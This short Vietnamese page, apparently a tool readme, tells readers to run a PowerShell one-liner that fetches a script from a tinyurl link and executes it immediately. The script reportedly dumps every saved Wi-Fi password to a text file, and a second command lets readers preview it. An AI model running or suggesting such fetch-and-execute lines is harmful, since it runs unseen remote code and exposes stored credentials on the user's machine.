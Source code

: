 Mở Powershell và chạy lệnh:

> **irm [https://tinyurl.com/GetListWifiPasswords](https://tinyurl.com/GetListWifiPasswords?fbclid=IwAR05MEDw97SVwJQ3TWmEp4yXOICs5vZ0_kl9DjFL4DAql2yjV18AQQiJyqo) | iex**

File danh sách mật khẩu Wifi sẽ lưu ở:  
"C:\!WifiPasswords\listWifiPasswords.txt"  
có dạng: [Tên Wifi]:[Mật khẩu]

**‍**

● Xem trước source code bằng Powershell:
> **irm [https://tinyurl.com/GetListWifiPasswords](https://tinyurl.com/GetListWifiPasswords?fbclid=IwAR00K3Z9dhxBpyKNzFd7EbG5Aj3y3JxKN0E0I4jAfKvnNFTRpP7Q2wZPv2I)**


